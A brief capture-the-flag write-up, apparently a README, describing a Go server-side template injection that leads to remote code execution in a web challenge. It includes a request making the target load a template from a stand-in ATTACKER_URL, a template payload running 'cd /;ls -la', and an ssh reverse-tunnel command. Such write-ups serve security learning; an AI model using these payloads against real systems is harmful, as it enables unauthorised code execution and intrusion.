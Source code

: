 # GO SSTI > RCE 

## Website 

<img src= "renderquest.PNG">

## Description

So, the functionality of the application seems to load and render templates either locally or remotely, depending on the ?use_remote={true/false} parameter. This lead me to want to check for SSTI vulnerability. I was able to set up a test.go template on my server with the contents {{.FetchServerInfo "cd /;ls -la"}}. Once the server loaded and executed my template code, I recieved the contents of the / directory, revealing code execution Just for context this is a CTF. What type of vulnerabilities were displayed here?.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injectiony in the web application. It sends a GET request to a specified vulnerable URL, loading and executing our attacker-controlled template on the target server, resulting in remote code execution.

## More Information

[SSTI in GO](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)

